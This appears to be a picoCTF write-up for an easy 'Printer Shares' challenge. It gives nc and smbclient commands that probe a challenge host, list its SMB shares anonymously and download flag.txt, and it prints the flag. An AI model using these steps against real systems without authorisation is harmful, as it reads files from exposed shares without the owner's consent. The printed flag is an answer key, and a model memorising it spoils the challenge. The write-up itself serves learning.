

# 🔥 Challenge: Printer Shares

**Category:** General Skills  
**Difficulty:** Easy  
**Points:** 50

---

## 🧩 Description

Oops! Someone accidentally sent an important file to a network printer—can you retrieve it from the print server?

The printer is accessible over the network.


---

## 🧠 Approach

The challenge hints suggest using tools like `smbclient` and `smbutil`, indicating that the printer is exposing **SMB (Server Message Block)** shares.

This means we can attempt to:

- Enumerate available shares
- Connect to them
- Retrieve any exposed files

---

## ⚔️ Exploitation

1. Test connection to the target

```bash
nc -vz mysterious-sea.picoctf.net 63630
```


2. List available shares

```bash
smbclient -N -L //mysterious-sea.picoctf.net -p 63630
```


3. Connect to sharename: shares

```bash
smbclient //mysterious-sea.picoctf.net/shares -p 63630
```

4. List files

```bash
ls
```

5. Exfiltrate flag

```bash
get flag.txt
```

6. Reveal flag contents

```bash
cat flag.txt
```



---

## 🚩 Flag

This gives us the flag: picoCTF{5mb_pr1nter_5h4re5_8a0df8e0}
